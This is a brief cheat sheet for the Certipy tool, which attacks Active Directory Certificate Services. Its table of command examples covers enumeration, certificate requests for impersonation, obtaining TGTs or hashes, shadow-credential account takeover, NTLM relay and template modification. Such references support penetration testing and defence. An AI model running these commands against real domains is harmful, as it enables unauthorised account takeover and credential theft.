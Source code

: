 > Designed to **enumerate, identify, and exploit misconfigurations in Active Directory Certificate Services (AD CS)**

|Action|Command Example|Description|
|---|---|---|
|Enumerate AD CS|`certipy find -u user -p pass -dc-ip <DC IP> -target <domain>`|Finds CAs, templates, and misconfigs|
|Request cert|`certipy req -u user -p pass -ca <CA name> -template <template> -dc-ip <DC IP>`|Requests a certificate (can be abused for impersonation)|
|Authenticate|`certipy auth -pfx <cert.pfx> -password <pfx_password> -dc-ip <DC IP>`|Authenticates using a certificate to obtain a TGT/hash|
|Shadow creds|`certipy shadow -u user -p pass -target <target user> -dc-ip <DC IP>`|Abuses shadow credentials for account takeover|
|Relay attack|`certipy relay -target <CA HTTP endpoint> -u user -p pass -dc-ip <DC IP>`|Performs NTLM relay to AD CS|
|Manage template|`certipy template -u user -p pass -action dump -dc-ip <DC IP>`|Dumps or modifies certificate templates|